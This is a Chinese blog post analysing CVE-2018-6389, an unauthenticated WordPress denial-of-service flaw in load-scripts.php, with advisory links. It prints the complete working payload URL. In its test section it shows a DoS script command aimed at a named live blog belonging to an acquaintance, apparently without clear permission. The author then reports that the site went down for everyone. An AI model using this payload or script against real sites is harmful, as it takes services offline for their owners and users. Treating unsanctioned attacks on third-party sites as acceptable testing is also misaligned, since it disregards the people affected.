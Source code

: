 ```yaml
---
title: CVE-2018-6389 WordPress通杀DoS漏洞分析
tags:
  - CVE
  - WordPress
date: 2018-02-06 15:34:58
---
```


近日，`WordPress`爆出通杀所有版本的`DoS`漏洞，CVE编号`CVE-2018-6389`， 过去九年发布的几乎所有版本的WordPress都受影响，包括最新版本4.9.2，作者给出了poc视频及修补脚本，在poc中他发起的单个请求会导致服务器执行181个I / O操作，并在响应中提供文件内容，但Wordpress团队拒绝承认这个漏洞。 
<!-- more -->

漏洞相关信息如下
### CVE-2018-6389漏洞概要
针对CVE-2018-6389漏洞情况，安全加整理了相关内容如下，这些内容可能来自于CVE-2018-6389涉及厂商、CVE-2018-6389漏洞信息发布组织、CVE、SecurityFocus及其它第三方组织。

### CVE-2018-6389漏洞标识
- CVE ID：CVE-2018-6389
- BUGTRAQ ID：【BUGTRAQ ID】
- 漏洞涉及厂商漏洞库ID：【漏洞涉及厂商漏洞库ID】
- CNNVD ID：【CNNVD漏洞编号】
- 绿盟科技漏洞库ID：【绿盟科技漏洞库ID】

### CVE-2018-6389漏洞相关链接
- 百度链接：https://www.baidu.com/s?wd=CVE-2018-6389
- 绿盟科技漏洞库链接：http://www.nsfocus.net/vulndb/{绿盟科技漏洞库ID}
- Github链接：https://github.com/Quitten/WordPress/blob/master/wp-dos-patch.sh
- 漏洞作者链接：https://baraktawily.blogspot.in/2018/02/how-to-dos-29-of-world-wide-websites.html

### CVE-2018-6389漏洞详情
漏洞位于`load-scripts.php`，该文件是为WordPress管理员设计的，允许将多个JavaScript文件加载到一个请求中，但研究人员注意到可以在登录之前调用该函数来允许任何人调用它，即任何人都可以调用它。
通过构造特殊的payload可导致服务器执行`181个I/O操作`，并发请求的情况下即可达到Dos的效果。
payload：
```
http://mywpserver.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9
```
### CVE-2018-6389漏洞测试
协会的大佬里貌似只有扣神是wordpress博客，对不起了扣神！
http://blog.thecosmos.cn
Dos脚本，启动
```
 python doser.py  -t 10 -g "http://blog.thecosmos.cn/wp-admin/load-scripts.php?xxxxxxxxxxxxxxxxxx"
```
![](/img/CVE-2018-6389-1.png)
再打开网站看看，已经508了，其他人也打不开
![](/img/CVE-2018-6389-2.png)
测试成功，Dos关闭

### 参考链接
- http://toutiao.secjia.com/cve-2018-6389
- https://baraktawily.blogspot.in/2018/02/how-to-dos-29-of-world-wide-websites.html